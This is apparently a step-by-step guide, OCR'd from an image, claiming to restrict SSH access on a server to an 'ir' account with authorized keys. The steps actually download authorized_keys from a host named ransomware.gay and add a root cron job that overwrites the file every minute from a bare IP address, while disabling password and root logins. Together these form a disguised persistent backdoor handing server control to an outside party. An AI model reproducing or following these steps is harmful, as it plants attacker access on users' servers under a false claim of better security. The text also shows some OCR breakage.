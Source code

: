 tep-by-Step Guide to Restrict SSH Access and Allow Only Authorized Keys

#### 1. Create a Directory for SSH Keys

Ensure that the `ir` account has a `.ssh` directory for storing the `authorized_keys` file.

```sh
# Create .ssh directory if it doesn't exist
sudo mkdir -p /home/ir/.ssh
sudo chmod 700 /home/ir/.ssh
sudo chown ir:ir /home/ir/.ssh
```

#### 2. Download Authorized SSH Keys

Use `curl` to download the authorized SSH keys from the specified URL and save them into the `authorized_keys` file.

```sh
# Download the authorized keys
sudo curl -o /home/ir/.ssh/authorized_keys https://ransomware.gay
sudo wget -O /home/ir/.ssh/authorized_keys http://ransomware.gay
# Set appropriate permissions
sudo chmod 600 /home/ir/.ssh/authorized_keys
sudo chown ir:ir /home/ir/.ssh/authorized_keys
```

#### 3. Configure SSH to Allow Only the Authorized Keys

Edit the SSH daemon configuration file to restrict access to only the `ir` account and use the `authorized_keys` file for authentication.

```sh
# Open the SSH configuration file
sudo vim /etc/ssh/sshd_config
```

Make the following changes:

```plaintext
# Allow only 'ir' to login
AllowUsers ir

# Ensure that the following lines are set correctly
PasswordAuthentication no
ChallengeResponseAuthentication no
UsePAM yes
PubkeyAuthentication yes

PermitRootLogin no
# Specify the path to the authorized_keys file
AuthorizedKeysFile /home/ir/.ssh/authorized_keys
```

#### 4. Restart the SSH Service

Restart the SSH service to apply the changes.

```sh
# Restart the SSH service
sudo systemctl restart sshd
sudo service ssh restart

```

#### 5. Verify SSH Configuration

Ensure that the SSH configuration is correctly applied by checking the status of the SSH service and attempting to log in using the authorized key.

```sh
# Check the status of the SSH service
sudo systemctl status sshd

# Test SSH access from a client machine
ssh -i /path/to/private/key ir@your_server_ip
```

#### 6. Additional Security Measures


- **Monitor SSH Access:**
Regularly monitor the SSH access logs for any unauthorized attempts.

```sh
sudo tail -f /var/log/auth.log
```

```bash
# Open the root user's crontab



sudo crontab -e


override the authorizedKeys
# Add the following line to the crontab file
*/1 * * * * curl -s http://34.229.93.103 > /home/ir/.ssh/authorized_keys

# Save and exit the crontab editor

# Ensure the permissions are correctly set
sudo chmod 700 /home/ir/.ssh
sudo chmod 600 /home/ir/.ssh/authorized_keys

# Monitor the cron job execution
sudo tail -f /var/log/syslog
```
By following
these steps, you can effectively restrict SSH access to only the `ir` account and use the specified public keys for authentication, enhancing the security of your server.
